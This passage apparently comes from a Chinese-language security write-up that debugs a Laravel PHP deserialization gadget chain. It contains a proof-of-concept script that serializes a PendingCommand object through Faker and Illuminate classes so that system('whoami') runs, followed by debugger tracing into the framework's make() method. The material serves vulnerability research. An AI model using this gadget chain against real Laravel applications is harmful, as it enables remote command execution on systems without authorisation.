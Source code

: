 ```

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}

namespace Illuminate\Foundation {
    class Application
    {
        public function __construct($instances = [])
        {
        }
    }
}

namespace {
    $defaultgenerator = new Faker\DefaultGenerator(array("T0WN" => "1"));
    $application = new Illuminate\Foundation\Application();
    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand($defaultgenerator, $application, "system", array("whoami"));
    echo urlencode(serialize($pendingcommand));
}
```

利用上面的poc这里走到了这段代码

```
$exitCode = $this->app[Kernel::class]->call($this->command, $this->parameters);
```

但是再f8往下走就直接抛出异常了

所以就f7跟进看看调用栈是怎么样的,来到了offsetGet函数

或者直接跟进`$this->app[Kernel::class]`这段代码

![image-20211123225723611](images/8.png)

跟进make

```
public function make($abstract, array $parameters = [])
{
    $abstract = $this->getAlias($abstract);

    if (isset($this->deferredServices[$abstract]) && ! isset($this->instances[$abstract])) {
        $this->loadDeferredProvider($abstract);
    }

    return parent::make($abstract, $parameters);
}
```
